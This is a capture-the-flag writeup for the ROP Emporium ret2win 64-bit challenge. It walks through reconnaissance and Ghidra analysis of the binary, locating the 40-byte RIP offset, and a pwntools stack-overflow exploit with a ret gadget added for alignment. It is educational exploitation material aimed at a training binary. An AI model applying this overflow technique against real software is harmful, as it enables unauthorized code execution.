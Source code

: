```yaml
---
layout: default
title : Sayonara - Ret2win64 Writeup
---
```


## Intro

today we are going to be tackling the first challenge on ROP Emporium which is a series of challenges to teach ROP `Return Oriented Programming`

![image](https://www.linkpicture.com/q/Screenshot_1_517.png)

download the x86_64 zip file and extract it using unzip, you will get 2 files a 64 bit executable and a flag.txt file which will be revealed if you exploit the binary 

## Basic Executable Reconnaissance

the executable is not stripped which makes reverse engeneering easier because it doesnt hide function names and the executable is dynamically linked so the libc library which contains many external funcions like fprintf() are not loaded within the executable but they dynamically linked at the execution time

![image](https://user-images.githubusercontent.com/97733918/223163064-aa220ad7-04ae-494f-becb-5c95b9f6c940.png)

we have only one security configuration enabled which is NX `No-Execute` also known as `Data Execution Prevention or DEP` marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.

```
checksec --file=ret2win32 
```
![image](https://user-images.githubusercontent.com/97733918/223163187-05decd3b-39f4-423d-b35a-111b3105edf9.png)

## Reverse Engeneering the Binary

open the binary using ghidra so we can read the source code and take a look at the functions

![image](https://user-images.githubusercontent.com/97733918/223163530-66e75258-969f-43ba-940e-f7848f0bd9db.png)

### Binary Functions

in this list of functions there is 3 interesting functions `main` and `pwnme` and `ret2win` where the main is the entry and pwnme is the vulnerable function and ret2win is the function that will print the flag 

![image](https://user-images.githubusercontent.com/97733918/223098994-649a7680-9f81-4a04-83ef-cc4855372607.png)

this the main function let's jump to pwnme

![image](https://user-images.githubusercontent.com/97733918/223163789-b426d3b6-b8f2-4ca4-ad8f-65633eedde56.png)

the read function is vunerable because the buffer takes `40 bytes` as maximum and the read function takes upto `56 bytes` so we can exploit the 16 bytes left to overflow the buffer and `hijack the execution flow`

![image](https://user-images.githubusercontent.com/97733918/223100490-3bab3262-1a56-48b5-95eb-d9dae7c50396.png)

so the final plan is exploiting `read()` from pwnme function by overflowing the buffer and overwrite the `RIP address value` with the ret2win function address to print the flag

![image](https://user-images.githubusercontent.com/97733918/223101015-b38ac1c2-cde7-4754-88f2-ef1b5e4ee59c.png)


## Locating RIP Offset : 

`RIP` is the return address value af a function so if we can to overwrite this value we can jump to another address that we specify in this challenge we want to jump to the ret2win function address

to find the offset we will use gdb pwndbg plugin 

![image](https://user-images.githubusercontent.com/97733918/223164269-8cce22ff-2d92-49c8-ba31-d6753c60e6d7.png)

cyclic generates a char pattern that will help us identify the the offset to the RIP in this case we're generating a 100 char pattern because we know that less than 100 is enaugh to crash the binary and overwrite the RIP 

![image](https://user-images.githubusercontent.com/97733918/223164468-8dfcd31f-3fd6-4134-b48f-856e1cf7e60c.png)

let's run the binary and send this pattern as input

![image](https://user-images.githubusercontent.com/97733918/223164918-a1d095e6-1528-4824-9f43-83b7690c7132.png)

wait for the binary to crash and then take the 4 char pattern that have overwritten the RIP and find out the offset

![image](https://user-images.githubusercontent.com/97733918/223165572-c7e49709-57e5-4b03-8d35-32f5f787ba1a.png)

the offset is `40`

![image](https://user-images.githubusercontent.com/97733918/223165758-84ea84a2-5013-4a57-8745-9c6d6c6ac453.png)

## Python Exploit using Pwntools

we are going to import the pwntools library because it will help us write the exploit

```python
from pwn import *
```

we will setup the architecture so the pwntools library will analyze the executable's archeticture and convert the addresses to the correct format `32bit little endianne or 64bit little endianne` so they are correctly aligned in the stack without us doing this manually 

```python
exe = './ret2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
```

open the executable in a process
```python
io = process(exe)
```

padding the payload with the offset and overwrite the RIP with the address of the ret2win function and send this payload as input

```python
offset = 40
payload = flat(
	offset * b'A',
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```

this is the `final script`

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = './ret2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
io = process(exe)
offset = 40
payload = flat(
	offset * b'A',
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```

now let's run it but we can see that the flag is printed and that means that the system('/bin/cat flag.txt') didn't execute although we have returned to ret2win function and the first instruction is executed

![image](https://user-images.githubusercontent.com/97733918/223167110-0b2c4671-790b-4739-aed0-9e3051a29388.png)

![image](https://user-images.githubusercontent.com/97733918/223166727-21c18aa9-9242-431c-87fc-e89d0ea3bc79.png)

and this is because stack is not aligned correctly so to fix this we need to find a return gadget and put it before we jump to the ret2win function and the return instruction makes the stack aligned correctly 

to find the ret gadget we will use a utility called ropper 

```
ropper --file=ret2win --search="ret"
```

![image](https://user-images.githubusercontent.com/97733918/223167948-5e02c0bb-1ba9-49a3-bb8d-eb14e8fe0f8c.png)

so the final python exploit will be this

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = './ret2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
io = process(exe)
offset = 40
ret = 0x40053e
payload = flat(
	offset * b'A',
        ret,
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```
let's run the script and BOOM we've got the flag

![image](https://user-images.githubusercontent.com/97733918/223168463-fc302bf6-9fa2-4954-97ec-d4ab5bc6d9dc.png)


Greeting From [Sayonara](https://github.com/ismail-arame)
